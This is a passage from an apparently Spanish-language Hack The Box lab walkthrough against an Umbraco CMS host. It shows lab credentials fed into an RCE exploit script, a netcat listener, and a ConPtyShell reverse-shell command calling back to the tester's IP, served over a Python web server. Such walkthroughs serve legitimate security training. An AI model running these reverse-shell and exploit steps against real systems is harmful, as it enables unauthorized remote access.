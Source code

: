 Aqui le ponemos los datos necessario

```python
login = "admin@htb.local"
password = "baconandcheese"
host = "http://10.10.10.180"

#en el payload
proc.StartInfo.FileName = "cmd.exe"
cmd = "/c ping 10.10.14.8"
```

Nos ponemos en escucha por trazas icmp

```bash
tcpdump -i tun0 icmp -n
```

y lanzamos el exploit con 
```bash
 python umbraco_exploit.py 
```
 y vemos que tenemos capacidad de ejecucion de comandos.


## Vuln exploit & Gaining Access {-}

### Umbraco {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Recuperamos conPtyShell

    ```bash
    git clone https://github.com/antonioCoco/ConPtyShell
    cd ConPtyShell
    cp invoke-ConPtyShell.ps1 ../conptyshell.ps1
    cd ..
    vi conptyshell.ps1
    ```

1. Añadimos al final del fichero el commando

    ```powershell
    Invoke-ConPtyShell -RemoteIp 10.10.14.8 -RemotePort 443 -Rows 52 -Cols 189
    ```

1. Creamos un servidor http con python

    ```bash
    python -m http.server 80
    ```

1. Modificamos el commando a lanzar en el umbraco_exploit.py
